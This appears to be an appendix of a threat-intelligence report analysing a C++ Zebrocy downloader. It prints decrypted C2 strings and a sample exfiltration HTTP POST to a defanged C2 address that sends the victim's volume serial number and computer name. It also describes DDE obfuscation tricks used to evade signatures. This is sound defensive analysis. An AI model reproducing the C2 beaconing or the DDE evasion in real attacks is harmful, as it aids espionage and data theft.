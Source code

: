 

Appendix
Zebrocy C++ Variant
On February 19, 2018, we saw a spear phishing email sent to a foreign affairs organization within a Central Asian country, which attempted to delivered an attached Zebrocy downloader (5b5e80f63...) written in the Delphi programming language. This downloader obtained a second downloader, which in this case was very similar in functionality but was written in C++ instead of Delphi.
This variation of the Zebrocy downloader begins by gathering the serial number for the storage volume with the label "C:\" and the computer name. It then creates an invisible window (0x0 pixel) in the bottom right corner of the screen, which will call the main function of the Trojan.
The main function of the Trojan interacts with its configured C2 server to obtain additional code to execute. The main function gets pertinent strings to communicate with its C2 by calling a sub-function with a specific number that the sub-function uses as a case within a switch statement to decrypt the desired string. For instance, here are the resulting decrypted strings from each of the case statements (dd7e69e1...):
Case - String decrypted
1 - 185.25.50[.]93
2 - POST http://185.25.50[.]93/syshelp/kd8812u/protocol.php HTTP/1.1\r\nHost: 185.25.50[.]93\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length:
3 - porg=
4 - Content-Length:
The Trojan uses raw sockets to communicate with its C2 server and uses the decrypted string above to create HTTP requests. It starts by calling this specific sub-function with an argument of 1 to get the IP address for the C2 to connect. It then calls the subfunction with the argument of 2 to get the string that it will use as the HTTP POST request. The main function then calls the subfunction with the argument 3 to get the POST data parameter (“porg”) along with the volume serial number and computer name and will send this data to the C2 via the HTTP POST request. The resulting HTTP POST request looks like the following:
POST http://185.25.50[.]93/syshelp/kd8812u/protocol.php HTTP/1.1
Host: 185.25.50[.]93
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
porg=44908AE0524f422d
We have not seen a C2 server respond to our requests during our analysis, however, we do know how the Trojan will parse the C2's response for specific data.
-1 - Deletes the buffer and exits the Trojan.
009 - Deletes the buffers and exits the Trojan.
If neither of the above values are found at the beginning of the HTTP response, the Trojan checks the C2 response for the ASCII representation of hexadecimal bytes. The Trojan will convert these hexadecimal bytes to their binary values and write them to a file and will run the file using the "open" function using the ShellExecuteW API function.
We have seen the following HTTP POST parameters within the Zebrocy C++ samples:
porg
structOne
oq
volume
DDE Details
The author of the DDE document used in the February 2018 attacks used some obfuscation techniques in an attempt to evade detection. First, the DDE instructions heavily rely on the QUOTE field, which converts decimal values to their ASCII equivalent character. Also, the author capitalized the “E” in the “dde” command to evade case sensitive signatures. Lastly, the author bolded the “dd” characters within the “dde” command, which breaks the string up within the XML of the DOCX file (word/document.xml) to make signature development difficult, as seen here:
